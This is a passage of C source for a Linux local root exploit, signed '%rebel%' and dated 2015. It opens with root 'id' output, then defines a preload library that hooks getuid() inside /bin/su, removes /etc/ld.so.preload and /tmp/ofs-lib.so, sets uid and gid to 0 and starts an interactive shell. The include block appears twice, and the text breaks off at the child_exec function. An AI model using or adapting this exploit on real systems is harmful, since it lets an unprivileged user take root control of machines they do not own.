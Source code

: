 ```c
# id

uid=0(root) gid=0(root) groups=0(root),24(cdrom),30(dip),46(plugdev),1000(user)

greets to beist & kaliman

2015-05-24

%rebel%

*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*

*/

#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>

#include <sched.h>

#include <sys/stat.h>

#include <sys/types.h>

#include <sys/mount.h>

#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>

#include <sched.h>

#include <sys/stat.h>

#include <sys/types.h>

#include <sys/mount.h>

#include <sys/types.h>

#include <signal.h>

#include <fcntl.h>

#include <string.h>

#include <linux/sched.h>

#define LIB "#include <unistd.h>\n\nuid_t(*_real_getuid) (void);\nchar path[128];\n\nuid_t\ngetuid(void)\n{\n_real_getuid = (uid_t(*)(void)) dlsym((void *) -1, \"getuid\");\nreadlink(\"/proc/self/exe\", (char *) &path, 128);\nif(geteuid() == 0 && !strcmp(path, \"/bin/su\")) {\nunlink(\"/etc/ld.so.preload\");unlink(\"/tmp/ofs-lib.so\");\nsetresuid(0, 0, 0);\nsetresgid(0, 0, 0);\nexecle(\"/bin/sh\", \"sh\", \"-i\", NULL, NULL);\n}\n return _real_getuid();\n}\n"

static char child_stack[1024*1024];

static int

child_exec(void *stuff)
```